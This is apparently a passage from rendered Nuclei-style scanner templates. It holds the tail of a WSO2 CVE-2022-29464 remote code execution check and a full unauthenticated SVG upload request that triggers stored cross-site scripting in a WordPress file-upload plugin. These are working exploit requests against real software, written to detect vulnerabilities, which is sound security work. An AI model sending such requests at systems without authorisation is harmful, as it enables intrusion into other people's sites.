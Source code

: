 ### Step - 2

```
GET /authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, 'WSO2-RCE-CVE-2022-29464')

---

# WordPress Contact Form 7 \<1.3.6.3 - Stored Cross-Site Scripting

## Description

- WordPress Contact Form 7 before 1.3.6.3 contains an unauthenticated stored cross-site scripting vulnerability in the Drag and Drop Multiple File Upload plugin. SVG files can be uploaded by default via the dnd_codedropz_upload AJAX action.

- severity - medium
- tags - cve,cve2022,xss,wordpress,wp-plugin,wpscan,fileupload,intrusive,unauth

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=---------------------------92633278134516118923780781161

-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="size_limit"

10485760
-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="action"

dnd_codedropz_upload
-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="type"

click
-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="upload-file"; filename="{{randstr}}.svg"
Content-Type: image/jpeg

<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
-----------------------------92633278134516118923780781161--

```
